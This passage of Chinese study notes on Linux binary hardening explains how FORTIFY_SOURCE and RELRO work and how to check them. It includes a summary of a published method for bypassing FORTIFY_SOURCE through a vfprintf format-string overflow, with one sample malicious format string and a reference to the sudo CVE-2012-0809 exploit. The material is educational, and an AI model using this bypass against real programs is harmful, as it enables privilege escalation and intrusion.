  - 取消示例代码中的unsafe部分的注释，此时使用gcc进行编译，同时指定-D_FORTIFY_SOURCE=2，gcc会针对unsafe的memcpy、strcpy函数以及fmt unknow部分的gets函数进行警告（由于fgets读入字符串时以\n作为结束符，虽然理论上存在溢出，但真实运行时是否溢出并不一定。）
    - 
- FORTIFY_SOURCE运行时安全检查
  - 注释掉示例代码中标记为unsafe的部分，然后分别编译成FORTIFY_SOURCE等级为0、1、2的三个可执行文件，同时添加参数-fno-stack-protector以避免Stack Canaries的干扰
    - 
  - 对于关闭了FORTIFY_SOURCE的程序，虽然输入的参数会导致栈溢出，但程序依然正常运行。
    - 
  - 对于开启1级FORTIFY_SOURCE（-D_FORIFY_SOURCE=1）的程序，unknown部分等memcpy、strcpy和fgets已经被替换为安全函数，并且在程序运行时进行检查；对于safe部分的strcpy，因为已经被证明为安全，所以被保留了下来。此时传入的arg1就触发了溢出检查，抛出异常。同时格式化字符串%2$x和%n依然是可用的
    - 
    - 
  - 最后，-D_FORIFY_SOURCE=2的程序将printf也替换成了安全函数，这一次格式化字符串%n就不可以用了，而%N$也需要从%1$开始连续才可用。
    - 
    - 
## 安全性（未看懂）
- 下面来探讨FORTIFY_SOURCE本身的安全性问题。CaptainPlanet发表在Phrack的文章A Eulogy for Format Strings讲述了如何利用vfprintf()函数的一个整数溢出，将位于栈上的_IO_FILE结构中的_IO_FLAGS2_FORTIFY 篡改为0，从而关闭FORTIFY_SOURCE对%n的检查，然后再次利用任意地址写，将nargs篡改为0，从而关闭对%N$的检查。
- vfprintf()存在任意4-byte NULL写的漏洞，如下所示
  - 
- 简单来说，就是提前计算好栈与_IO_FLAGS2_FORTIFY的偏移，利用该偏移构造一个恶意的格式字符串，使args_type[ATTACKER_OFFSET]= 0x00000000，从而达到任意地址写。例如传入的格式字符串为%1$*269096872$x，此时：
  - 
- CVE-2012-0809是sudo-1.8版本存在的一个格式化字符串漏洞，longld的文章Exploiting Sudo format stringvunerability中利用同样的方法，成功地绕过了FORTIFY_SOURCE。
# RELRO
- 在启用延迟绑定时，符号的解析只发生在第一次使用的时候，该过程是通过PLT表进行的，解析完成后，相应的GOT条目会被修改为正确的函数地址。因此，在延迟绑定的情况下，.got.plt必须是可写的，这就给了攻击者篡改地址劫持程序执行的可能。符号解析过程的详细描述，以及攻击方法可以查看10.6节ret2dl-resolve。
- RELRO将符号重定向表设置为只读，或者在程序启动时就解析并绑定所有动态符号，从而避免GOT上的地址被篡改。
- RELOR有两种形式：
  - Partial RELRO：一些段（包括.dynamic、.got等）在初始化后将会被标记为只读。在Ubuntu16.04（GCC-5.4.0）上，默认开启Partial RELRO，(这里的.got应该是指保存全局变量地址的.got表部分，保存外部函数地址的.got.plt表仍然可写，以此支持延迟绑定技术)
  - Full RELRO：除了Partial RELRO，延迟绑定将被禁止，所有的导入符号将在开始时被解析，.got.plt段会被完全初始化为目标函数的最终地址，并被mprotect标记为只读，但其实.got.plt会直接被合并到.got，也就看不到这段了。另外link_map和_dl_runtime_resolve的地址也不会被装入。开启Full RELRO会对程序启动时的性能造成一定的影响，但也只有这样才能防止攻击者篡改GOT。
- relro的检测
  - Checksec.sh也是通过程序头的“GNU_RELRO”段判断是否开启RELRO，通过动态段表的“BIND_NOW”判断是Partial还是Full。
  - 
## 示例
- 示例程度代码（用于模拟向.got .got.plt段中写数据）
  - 
- 关闭RELRO机制
  - 第一种情况，在程序编译时关闭RELRO。从动态重定位表中可以看到两种不同类型的符号，其中R_X86_64_GLOB_DAT用于将符号地址写到OFFSET的位置（位于.got段）；R_X86_64_JUMP_SLOT则专门用于延迟绑定，OFFSET保存的是符号对应PLT项的位置（位于.got.plt段）
    - 
    - objdump -R 用于查看动态重定位项信息，即.got.plt和.got信息
    - readelf -S 用于查看section（节表）信息
  - 此时.got.plt和.got信息可读可写
    - 
    - readelf -l 查看segment信息
  - 测试一下，程序正常执行，因此.got和.got.plt都是可写的
    - 
- 开启Partial RELRO
  - 在程序编译时开启Partial RELRO，大体上与第一种情况差不多，但可以注意到两种符号的OFFSET已经不在一页（大小为0x1000字节）上了，也就是说它们的权限有可能不同。
    - 
  - 看程序头，发现多了一个GNU_RELRO，将.dynamic、.got等标记为只读权限（R），于是在重定向完成后，动态链接器会把这个区域保护起来。
    - 
  - 在写.got的时候程序抛出了Segmentation fault错误，而写.got.plt时依然正常。
    - 
- 开启Full RELRO
  - 在程序编译时开启Full RELRO。可以看到所有符号都变成了R_X86_64_GLOB类型，因此全都放在.got段上，.rel.plt段和.got.plt段也就都不需要了。
    - 
## RELRO的实现
- 启用延迟绑定与关闭延迟绑定的区别
  - 启用延迟绑定时，第一次执行call指令会跳转到printf@plt，然后jmp到对应的.got.plt项，再跳回来进行符号绑定，完成后.got.plt项才被修改为真正的函数地址。
    - 
  - 没有延迟绑定时，所有的解析工作在程序加载时完成，执行call指令跳到对应的.plt.got项，然后jmp到对应的.got项，这里已经保存了解析好的函数地址
    - 
- 所以RELRO的一大任务就是处理函数调用的问题。在binutils-2.26.1的源码里找到一个函数elf_x86_64_allocate_dynrelocs()，如果启用了Full RELRO，也就是关闭了延迟绑定，那么就不会使用常规的.plt，而是使用.plt.got作为跳板。
  - 

